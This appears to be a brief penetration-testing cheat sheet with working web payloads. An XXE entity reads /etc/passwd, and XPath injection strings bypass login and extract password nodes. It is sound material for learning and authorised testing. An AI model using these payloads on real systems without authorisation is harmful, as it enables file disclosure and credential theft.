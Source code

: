 ### Where you can control an entity
example:  
`/?xml=<test>blah</test>`  

We describe the entity and then call it:
`/?xml=<!DOCTYPE test [<!ENTITY x SYSTEM "file:///etc/passwd">]><test>&x;</test>` # '`&`' must be URL encoded as `%26`

### xPath
Similar to SQL injection, can be tested/broken with boolean logic:
 * `' and '1'='1 and you should get the same result.`
 * `' or '1'='0 and you should get the same result.`
 * `' and '1'='0 and you should not get any result.`
 * `' or '1'='1 and you should get all results.`
 
 A complete attack query could like like:
 `admin']%00` or `admin' or 1=1]%00`
 
 To get information from childnodes (check readme for info on childnodes):  
 `'%20or%201=1]/child::node()%00` - CURRENT childnode  
 `admin'%20or%201=1]/parent::*/child::node()%00` - ALL childnodes  
 `admin']/parent::*/password%00` - info from the PASSWORD childnode  
